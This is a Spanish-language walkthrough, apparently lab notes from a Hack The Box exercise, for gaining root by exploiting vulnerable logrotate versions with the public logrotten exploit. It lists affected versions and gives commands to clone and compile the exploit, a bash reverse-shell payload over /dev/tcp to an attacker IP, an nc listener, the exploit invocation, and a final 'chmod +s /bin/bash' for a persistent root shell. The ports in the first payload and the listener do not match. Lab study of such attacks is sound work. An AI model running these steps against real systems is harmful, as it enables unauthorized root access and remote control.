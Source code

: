 # Explotación de **logrotate** con **logrotten**

## 📌 Introducción
Los sistemas Linux generan grandes cantidades de archivos de registro (**logs**). Para evitar que llenen el disco, se utiliza la herramienta **logrotate**, que archiva o elimina registros antiguos.  
Si los registros no se gestionan correctamente, pueden ocupar demasiado espacio y dificultar la búsqueda de información crítica.

## 🎯 Objetivo
Explotar una versión vulnerable de **logrotate** para obtener una **shell reversa** como usuario privilegiado o root.

## 🛠 Requisitos
Para explotar **logrotate**, se deben cumplir las siguientes condiciones:
1. Tener **permisos de escritura** en los archivos de log.
2. **logrotate** debe ejecutarse como un usuario privilegiado o **root**.
3. La versión del sistema debe ser **vulnerable**. Versiones afectadas:
   - **3.8.6**
   - **3.11.0**
   - **3.15.0**
   - **3.18.0**

Podemos usar pspy para ver si en intervalos regulares de tiempo se ejecuta logrotate.

## 🚀 Explotación con **logrotten**
Si se cumplen los requisitos, podemos usar un exploit prefabricado llamado **logrotten**.  

### **1️⃣ Descarga y compilación del exploit**
Si el sistema de destino permite la compilación, podemos hacerlo directamente allí. De lo contrario, compilamos en una máquina con un kernel similar y transferimos el binario.

```sh
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```

### **2️⃣ Creación del payload**

Generamos un payload con una **shell reversa** que se conectará a nuestra máquina atacante (**10.10.14.2:9001** en este caso).

```bash
echo 'bash -p -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
chmod +x payload
```
IMPORTANTE EL -p si no no se ejecutará de forma privilegiada aunque lo ejecute root.
### **3️⃣ Identificación de configuración vulnerable**

Verificamos si **logrotate** tiene la opción `create`, lo que significa que podemos usar el exploit con este método:

```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

```

ejemplo de salida:
	 create
Dado que la opción `create` está habilitada, adaptamos el exploit en consecuencia.

### **4️⃣ Configuración del listener en nuestra máquina**

Antes de ejecutar el exploit, iniciamos un **listener** en nuestra máquina para recibir la conexión:
```bash
nc -nlvp 1234

```
### **5️⃣ Ejecución del exploit**

Ejecutamos el exploit indicando el payload y el archivo de log vulnerable:
```bash
./logrotten -p ./payload <path absoluto al log donde tenemos permisos de escritura>

```

Si la explotación es exitosa, recibiremos una conexión en nuestro listener

Ejemplo exitoso:
1. Veo que hay un access.log en /home/htb-student. Si añado contenido a este access.log veo que se crea un access1.log y el access.log no tiene contenido. Si sigo añadiendo contenido se van creando más. Me da que pensar que el logrotate se está ejecutando.
2. Al tener nosotros permisos de escritura en el fichero log, ser una versión de logrotate vulnerable y viendo con pspy que root ejecuta logrotate. Podemos decir que se puede explotar la vulnerabilidad.
3. Creamos el payload con echo `bash -p -i >& /dev/tcp/10.10.14.2/1234 0>&1' > payload`
4. Clonamos el repo de logrotten en la máquina atacante y transferimos el logrotten.c a la máquina víctima y lo compilamos `gcc logrotten.c -o logrotten`
5. Accedemos desde otro terminal a la máquina por SSH para así tener dos terminales activas( a lo mejor hay una mejor forma de hacer esto, y este paso es exclusivo de la máquina esta para forzar la llamada a logrotate desde root.)
6. Nos ponemos en escucha máquina atacante `nc -nvlp 1234`
7. Ejecutamos desde un terminal `./logrotten -p ./payload /home/htb-student/access.log` y desde otro terminal `echo "a">access.log`
8. Antes de que se cierre la sesión, usamos `chmod +s /bin/bash`